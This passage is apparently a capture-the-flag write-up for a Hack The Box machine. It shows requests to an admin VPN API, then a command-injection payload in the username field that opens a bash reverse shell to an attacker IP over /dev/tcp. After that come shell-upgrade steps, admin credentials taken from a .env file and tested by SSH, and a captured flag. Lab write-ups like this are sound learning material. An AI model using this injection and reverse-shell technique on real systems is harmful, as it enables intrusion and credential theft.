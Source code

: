 now that we have an `admin` user we should be able to generate a `VPN` for the admin
![[Pasted image 20250418200240.png]]

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
```
submitting nothing in the firled when testing provides nothing
![[Pasted image 20250418200642.png]]
need to add a `username` to generate for

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive

{
  "username": "test"
}
```
now we get an `error` of `invalid content type` again
![[Pasted image 20250418200753.png]]
so same thing as before - copy and paste the `content type` from the `response` which was `application/json`

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
Content-Length: 26
Content-Type: application/json

{
  "username": "test"
}
```
now we get `certificates` but dont have anything to do with them, since we now have the `username` feld lets try `command injection`
![[Pasted image 20250418201335.png]]
was able to get a `reverse shell` with this
```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=jmfes0rti5g4lmau3vesfhp6fk
Connection: keep-alive
Content-Length: 86
Content-Type: application/json

{
  "username": "test$(/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.208/1337 0>&1')"
}
```
but its not a proper `tty` 
![[Pasted image 20250418202614.png]]
need to get a `proper TTY` with this script
```bash
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
reset
Terminal type? screen
```
and now i have a proper `tty`
![[Pasted image 20250418202737.png]]
listing directories
![[Pasted image 20250418202837.png]]
in the `.env` file we find `admin` credentials
![[Pasted image 20250418203010.png]]
testing `credentials` with `netexec`
```bash
┌──(root💀gobots)-[19Apr2025 00:31:42]-[/var/www/html/portal]
└─# netexec ssh 10.10.11.221 -u admin -p SuperDuperPass123
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating default workspace
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing SSH protocol database
[*] Initializing MSSQL protocol database
[*] Initializing VNC protocol database
[*] Initializing FTP protocol database
[*] Initializing WMI protocol database
[*] Initializing SMB protocol database
[*] Initializing RDP protocol database
[*] Initializing NFS protocol database
[*] Copying default configuration file
SSH         10.10.11.221    22     10.10.11.221     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.221    22     10.10.11.221     [+] admin:SuperDuperPass123  Linux - Shell access!
```
now can `ssh` right in
![[Pasted image 20250418203133.png]]
got the `first` flag - d63609f9fbfee94990c55ca406f2482a
![[Pasted image 20250418203319.png]]
![[Pasted image 20250418203355.png]]